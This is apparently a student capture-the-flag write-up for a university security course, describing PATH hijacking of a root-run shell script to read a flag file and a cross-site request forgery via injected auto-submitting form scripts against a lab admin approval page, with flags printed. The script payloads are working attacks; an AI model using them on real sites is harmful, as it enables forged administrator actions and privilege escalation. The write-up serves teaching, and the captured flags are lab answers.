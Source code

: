 ### British Punctuality

After analyzing the directories and files, we noticed some things.

Upon entry, there's a reader program, a main.c file which is the source code of this reader program and a shell script. <br>

This reader program attempts to read the /flags/flag.txt but, since we don't have permissions to read it, it can never execute and read the flag. <br>

The shell script checks for the existence of a /tmp/env file, changes the environment variables based on it, deletes the file and then executes a printenv shell program that prints all the environment variables to the console and then executes the reader program.

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058437178964836412/image.png">

With this in mind, we went ahead and checked the /tmp directory, in which we realized we had permissions to create files, so we devised a strategy. <br>

We created an env file that changes the PATH environment variable to point to the /tmp directory.

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058449240319348857/image.png">

This will make it so whenever we try to run any system built-in commands, the system will try to fetch the location of that command going down the directories in the PATH variable. <br>
Since the /tmp folder is the first in line, if there's a printenv executable there, the system will call that one, instead of the "real" one. 

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058445037995827350/image.png">

And because the script calling this new printenv command has root access and therefore can read the /flag.txt file, if we were to put a cat flag.txt command in the new printenv command, we should be able to see the flag(flag{08276c3eaa5aff543e02f1d5719aac94}
) in the last_logs file.<br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058449597451743312/image.png">


### Final Format

### Echo

### Apply For Flag II

This CTF is very similar to Week 10 Challenge 1, with a small yet annoying difference: the admin page and the justification page are hosted on the same website but on different ports, which counts as different origins. <br>

Firstly, we tried to do the same as we did on that challenge, sending a POST request using Ajax to the action that submits the approval for the flag.<br>

`<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                var sendurl="http://ctf-fsi.fe.up.pt:5005/request/64d2f32ef60ef1df5b6f58701f0d47fbe59c6584/approve";
                Ajax=new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.send();
        }
</script>`

This did not work because it triggered a CORS error:

`Access to XMLHttpRequest at 'http://ctf-fsi.fe.up.pt:5005/request/64d2f32ef60ef1df5b6f58701f0d47fbe59c6584/approve' from origin 'http://ctf-fsi.fe.up.pt:5004' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.`

Now that we knew what we need to defeat, we started to look for ways to go around that. <br>

One way that we researched was the use of iframes to bypass SOP, but this turned out to be a dead end and a major headache. <br>

Until we finally arrived at a solution, which came to our mind because of the Laravel framework we're using on the LBAW course. <br>

Generally, if a form is submitted on a website, it won't trigger any SOP error because it's the own website submitting the request, and not someone/something external to it. <br>

With this in mind, we devised a script that would inject a form onto the DOM and then submit it automatically. <br>

`<script type="text/javascript">

    document.body.onload = function () {

        var form = document.createElement("form");
        form.method = "POST";
        form.action = "http://ctf-fsi.fe.up.pt:5005/request/b3131dce877a8b7198566429b90379958476bc9b/approve";
        form.name = "form";
        form.role = "form";

        document.body.appendChild(form);

        document.form.submit();

    }
</script>`

The problem with this approach is that it will automatically redirect us to the action URL, which means we need to find a way to stop that. <br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058467818246508575/image.png">

After a couple tries trying to use javascript to stop the webpage from redirecting, which didn't work, we decided the best way to achieve the intended result was to just stop javascript execution in the browser with an extension and navigating to the URL that tells us if our request was approved. <br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058468658529177661/image.png">

This worked perfectly, as when we loaded the page it wouldn't redirect us anymore, because our script tag was being disabled, allowing us to retrieve the flag (flag{24e4abf36593c5f93b13d0f5449c1258}).

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058468097662660718/image.png">

There's only one improvement we could make, which is to make it so the script works autonomously, retrieving the request id from the URL, so we don't have to change our code every time we wanted to exploit this website.

`<script type="text/javascript">

    document.body.onload = function () {

        var form = document.createElement("form");
        form.method = "POST";
        form.action = window.location.href.substring(0,27) + "5" + window.location.href.substring(28) + "/approve";
        form.name = "form";
        form.role = "form";

        document.body.appendChild(form);

        document.form.submit();

    }
</script>
`

Unfortunatelly, despite the action URL being built correctly, for some reason our request is never approved. <br>
Since we already have the flag, we didn't give it much second thought, but decided to document this either way.

### NumberStation3
